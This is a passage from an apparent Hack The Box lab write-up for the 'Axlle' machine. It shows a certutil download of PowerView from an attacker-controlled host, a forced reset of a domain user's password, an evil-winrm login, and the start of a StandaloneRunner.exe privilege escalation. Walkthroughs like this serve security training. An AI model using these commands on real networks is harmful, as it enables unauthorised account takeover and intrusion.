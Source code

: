 Find `dallon.matrix` and you will see that he is a member of the `Web Devs` group.

![web devs group](/images/HTB-Axlle/web_devs_group.png)

The members of the `Web Devs` group can change the password of `Baz.Humphries` and `Jacob.Greeny` because of `ForceChangePassword` which we can abuse with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

> This account attribute allows the enforcement of a password change even without knowing the user's current password. *Read more about it [here](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#forcechangepassword).*

![ForceChangePassword](/images/HTB-Axlle/ForeceChangePassword.png)

Import PowerView on the target.

```
certutil.exe -urlcache -split -f http://YOUR_IP:WEBSERVER_PORT/PowerView.ps1 powerview.ps1

Import-Module ./powerview.ps1
```

We change the password of `baz.humphries`.

```
$pass = ConvertTo-SecureString 'PleaseLetMeIn007!' -AsPlainText -Force

Set-DomainUserPassword -Identity Baz.Humphries -AccountPassword $pass
```

![Baz Humphries password change](/images/HTB-Axlle/password_change.png)

We login with evil-winrm as `baz.humphries`.

```
evil-winrm -u "baz.humphries" -p PleaseLetMeIn007! -i axlle.htb
```

![Baz Humphries login](/images/HTB-Axlle/baz_humphries_login.png)

## Privilege Escalation

In `C:\App Development\kbfiltr` we find a `README.md` file. One of the line reads "**NOTE: I have automated the running of `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\standalonerunner.exe` as SYSTEM to test and debug this driver in a standalone environment**".

![README location](/images/HTB-Axlle/README-location.png)

[This Github page](https://github.com/nasbench/Misc-Research/blob/main/LOLBINs/StandaloneRunner.md) shows how to exploit `StandaloneRunner.exe`.

1. Create a `reboot.rsf` file, its content should be as below. This file should be in the current directory of execution where the `exe` and `dll` files are.

```
myTestDir
True
```
